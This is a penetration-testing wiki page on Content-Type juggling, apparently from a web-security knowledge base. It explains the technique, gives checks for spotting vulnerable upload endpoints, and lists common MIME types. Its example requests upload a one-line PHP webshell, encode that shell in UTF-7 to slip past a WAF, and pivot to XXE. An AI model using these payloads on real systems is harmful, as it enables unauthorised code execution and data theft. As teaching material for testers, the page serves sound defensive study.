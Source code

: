 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# Content-Type juggling

## Theory

Content-Type juggling exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../file-inclusion/lfi-to-rce/file-upload) or [xxe-injection](#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](#examples)).

> [!TIP]
> The `Content-Type` header is used to indicate the MIME type of the resource.
> 
> * In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
> * In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

> [!WARNING]
> If the [XCTO (X-Content-Type-Options)](../../config/http-headers/index#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../config/http-headers/mime-sniffing). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header not present ?
* Can the `Content-Type` header be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`, [XXE](../xxe-injection/index) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

One should not stick to this list and always try several Content-Type values.

::: details List of the most common Content-Type values

Type application
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```

Type audio
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
Type image
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```

Type multipart
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```

Type text
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```

Type video
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```

Type vnd
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```

:::


### Example attacks

::: details PHP payload upload and RCE
Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```
:::


::: details Bypass a WAF
Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "charset juggling" can be performed.


```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```



```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```

:::


::: details API attack, leading to XXE
In the following request, the application normally sends JSON content (`Content-Type: application/json`).

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.

![Performing Content-Type juggling](assets/CT-JUGGLING-3.png)

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](../xxe-injection/index)).

![Crafting a XXE payload to extract /etc/passwd](assets/CT-JUGGLING-4.png)

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).
:::


## Resources

[https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2)

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)
Content-Type from JSON to XEE

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses)
WAF and protections bypasses

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
